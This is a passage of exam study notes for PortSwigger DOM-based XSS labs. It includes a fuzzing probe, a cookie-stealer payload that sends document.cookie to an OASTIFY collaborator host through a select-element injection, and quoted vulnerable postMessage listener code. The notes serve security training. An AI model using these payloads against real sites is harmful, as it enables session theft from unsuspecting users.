 ```html
/product?productId=1&storeId=fuzzer"></select>fuzzer
```

![get-dom-xss.png](images/get-dom-xss.png)  

>DOM XSS [cookie stealer payload](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/5cbfeb2a11577ad62a31f72635a000bf5dcce293/payloads/CookieStealer-Payloads.md) in a `document.write` sink using source `location.search` inside a `<select>` element. This can be send to victim via exploit server in `<iframe>`. To test the cookie stealer payload I again on my browser in console added a test POC cookie to test sending it to Collaborator.  

```html
"></select><script>document.location='https://OASTIFY.COM/?domxss='+document.cookie</script>//
```  

![dom-xss](images/dom-xss.png)  

[PortSwigger Lab: DOM XSS in document.write sink using source location.search inside a select element](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element)  
  
### DOM XSS JSON.parse web messages    

>Target use web messaging and parses the message as JSON. Exploiting the vulnerability by constructing an HTML page on the exploit server that exploits DOM XSS vulnerability and steal victim cookie.  


>The vulnerable JavaScript code on the target using event listener that listens for a web message. This event listener expects a **string** that is parsed using **JSON.parse()**. In the JavaScript below, we can see that the event listener expects a **type** property and that the **load-channel** case of the **switch** statement changes the **img src** attribute.  

>***Identify*** web messages on target that is using `postmessage()` with **DOM Invader**.  

```JavaScript
<script>
	window.addEventListener('message', function(e) {
		var img = document.createElement('img'), ACMEplayer = {element: img}, d;
		document.body.appendChild(img);
		try {
			d = JSON.parse(e.data);
		} catch(e) {
			return;
		}
		switch(d.type) {
			case "page-load":
				ACMEplayer.element.scrollIntoView();
				break;
			case "load-channel":
				ACMEplayer.element.src = d.url;
				break;
			case "player-height-changed":
				ACMEplayer.element.style.width = d.width + "px";
				ACMEplayer.element.style.height = d.height + "px";
				break;
			case "redirect":
				window.location.replace(d.redirectUrl);
				break;
		}
	}, false);
</script>
```  
